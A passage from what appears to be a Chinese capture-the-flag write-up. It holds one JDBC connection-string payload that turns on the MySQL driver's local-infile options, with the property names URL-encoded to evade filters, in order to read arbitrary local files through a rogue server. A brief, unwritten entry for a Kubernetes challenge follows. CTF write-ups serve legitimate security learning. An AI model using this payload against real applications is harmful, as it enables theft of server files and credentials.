host=ADDRESS=(host=127.0.0.1)(port=3306)(database=test)(user=fileread_file%3A%2F%2F%2F.)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65%49%6e%50%61%74%68=%2F)(%61%6c%6c%6f%77%55%72%6c%49%6e%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%6d%61%78%41%6c%6c%6f%77%65%64%50%61%63%6b%65%74=655360)  #/test&port=3306&database=test&extraParams={}&username=test&password=root
```

~~其实吧，我不会~~

## SU_easyk8s_on_aliyun(REALLY VERY EASY)

网上wp很多不写了
